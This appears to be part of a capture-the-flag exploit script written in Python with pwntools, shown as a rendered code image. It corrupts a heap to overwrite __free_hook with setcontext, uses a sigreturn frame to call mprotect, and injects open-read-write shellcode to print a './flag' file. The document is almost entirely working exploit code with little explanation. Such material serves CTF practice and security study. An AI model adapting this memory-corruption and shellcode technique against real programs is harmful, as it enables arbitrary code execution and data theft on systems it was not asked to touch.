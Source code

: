 ```python
shellcode1 = '''
xor rdi, rdi
mov rsi, %d
mov edx, 0x1000

mov eax, 0
syscall

jmp rsi
''' % new_execve_env

edit(10, 'a' * 0x10 + p64(libc.sym['setcontext'] + 53) + p64(libc.sym['__free_hook'] + 0x10) + asm(shellcode1))

# pause()

context.arch = "amd64"
frame = SigreturnFrame()
frame.rsp = libc.sym['__free_hook'] + 8
frame.rip = libc.sym['mprotect']
frame.rdi = new_execve_env
frame.rsi = 0x1000
frame.rdx = 4 | 2 | 1

edit(12, str(frame))
p.sendline('3')
p.recvuntil('Index: ')
p.sendline('12')

shellcode2 = '''
mov rax, 0x67616c662f2e ;// ./flag
push rax

mov rdi, rsp ;// ./flag
mov rsi, 0 ;// O_RDONLY
xor rdx, rdx ;// 置0就行
mov rax, 2 ;// SYS_open
syscall

mov rdi, rax ;// fd
mov rsi,rsp  ;// 读到栈上
mov rdx, 1024 ;// nbytes
mov rax,0 ;// SYS_read
syscall

mov rdi, 1 ;// fd
mov rsi, rsp ;// buf
mov rdx, rax ;// count
mov rax, 1 ;// SYS_write
syscall

mov rdi, 0 ;// error_code
mov rax, 60
syscall
'''

p.send(asm(shellcode2))

print(p.recv())

p.interactive()
```

